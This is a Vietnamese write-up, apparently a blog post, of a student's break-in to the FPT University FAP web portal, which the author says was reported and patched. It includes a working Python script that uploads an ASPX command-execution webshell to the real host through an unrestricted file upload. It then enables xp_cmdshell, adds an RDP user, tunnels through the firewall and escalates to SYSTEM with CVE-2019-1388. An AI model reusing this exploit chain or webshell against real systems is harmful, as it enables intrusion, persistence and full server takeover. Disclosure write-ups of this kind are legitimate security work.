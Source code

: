 > Lỗ hổng đã report và được vá

> Do tình trạng dịch đang bùng phát nên sinh viên học sinh toàn quốc được nghỉ học, mình có nhiều thời gian rảnh rỗi để vọc này kia, thế là quyết định lấy con FAP của trường ra thông thử

<img src="fap.fpt.png">

* Đây là giao diện của website, sau khi login thì mình F12 view-source xem có gì hay ho không thì phát hiện ra 1 url 

<img src="view-source.fpt.png">

`/SRS/AddQA.aspx`

* Truy cập vào là một giao diện ý kiến của mình gửi cho nhà trường và có form upload

<img src="form-upload.fpt.png">

* Do ở đây mình không biết chính xác subject code các kiểu nên intercept nó lại và đẩy vào burpsuite để bắt request response của nó xem như thế nào

<img src="burpsuite.fpt.png">

* Thì phát hiện ra một số param và endpoint để tấn công

  * Thứ nhất:
  
 ```
Content-Type: multipart/form-data;
 boundary=---------------------------324402796424983 -----------------------------324402796424983 
Content-Disposition: form-data; name=“ctl00mainContentmainContentfileUpLoad”; filename=“1.aspx”
aaa-----------------------------324402796424983 Content-Disposition: form-data; name=“ctl00mainContentmainContentbtnUpLoad”

Send Question
```

* Có params và content-type để gửi file
  
  * Thứ 2:
  
  <img src="params&content-type.fpt.png">
  
  * Request mình upload file lên sẽ được xử lý ở upload.aspx và lưu trong /temp/MOOC/‘tên file’
Ý tưởng là sẽ dùng params có sẵn ở request để post file lên server thông qua upload.aspx, payload python đơn giản để test thử con shell:
```py
import requests

url = "http://fap.fpt.edu.vn/SRS/upload.aspx"
payload = """<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">
Sub RunCmd(Src As Object, E As EventArgs)
  Dim myProcess As New Process()
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)
  myProcessStartInfo.UseShellExecute = false
  myProcessStartInfo.RedirectStandardOutput = true
  myProcess.StartInfo = myProcessStartInfo
  myProcessStartInfo.Arguments=xcmd.text
  myProcess.Start()
  Dim myStreamReader As StreamReader = myProcess.StandardOutput
  Dim myString As String = myStreamReader.Readtoend()
  myProcess.Close()
  mystring=replace(mystring,"<","&lt;")
  mystring=replace(mystring,">","&gt;")
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"
End Sub
</script>

<html>
<body>
<form runat="server">
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>
<asp:TextBox id="xpath" runat="server" Width="300px">c:\\windows\\system32\\cmd.exe</asp:TextBox>
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>
<p><asp:Label id="result" runat="server"></asp:Label>
</form>
</body>
</html>"""
files = [('ctl00$mainContent$fileUpLoad', ('1.aspx', payload, 'image/jpeg')), ('ctl00$mainContent$btnUpLoad', ('1.aspx', 'Send Question'))]


headers = {
  'Host': 'fap.fpt.edu.vn',
  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0 Waterfox/56.3',
  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
  'Accept-Language': 'en-US,en;q=0.5',
  'Accept-Encoding': 'gzip, deflate',
  'Connection': 'close',
  'Upgrade-Insecure-Requests': '1',
  'Cache-Control': 'max-age=0',
  'Content-Length': '300'
}

response = requests.post(url, headers=headers, files=files)

print(response.text)
```

* Sau khi thực thi payload kết quả trả về:

<img src="payload.fpt.png">
  
* Url trả về cho thấy mình đã post đc con shell lên server =)), eazy, tiếp theo là access con shell qua url trả về

<img src="shell.fpt.png">

<img src="web.config.fpt.png">

* Sau khi dùng string connect thành công, ở đây là user SA thì có khả năng đủ quyền để enable hàm xp_cmdshell trên mssql, sau đó gọi đến command line và thực thi lệnh

```
- EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
- EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

<img src="rce.fpt.png">

* Vậy là đã RCE thành công, tiếp tục là add user vô rdp

<img src="add-user.fpt.png">

* Vậy là đã tạo được user trên server. Bước tiếp theo khá là quan trọng vì port rdp được bảo vệ bởi firewall, mình không thể connect từ ngoài vào được, nên mình sẽ sử dụng kĩ thuật tunnel

* Cơ chế hoạt động của Tunna như sau:

<img src="tunna-rdp-fpt.png">

* Hiểu nôm na là hacker sẽ thông qua 1 con webshell đã được gắn trên server, vượt qua firewall, và đem port trong local ra ngoài để mạng mình có thể connect tới,

* Sau khi Tunnel thành công mình đã connect được rdp qua tài khoản và mật khẩu vừa tạo

<img src="connect-rdp.fpt.png">

* Chưa dừng ở đây, do bản server win dùng khá củ nên mình thử sử dụng exploit leo quyền CVE-2019-1388, lỗi này leo quyền logic dựa trên Windows Certificate Dialog

<img src="system.fpt.png"> 

> Kết quả là đã leo lên quyền system thành công!


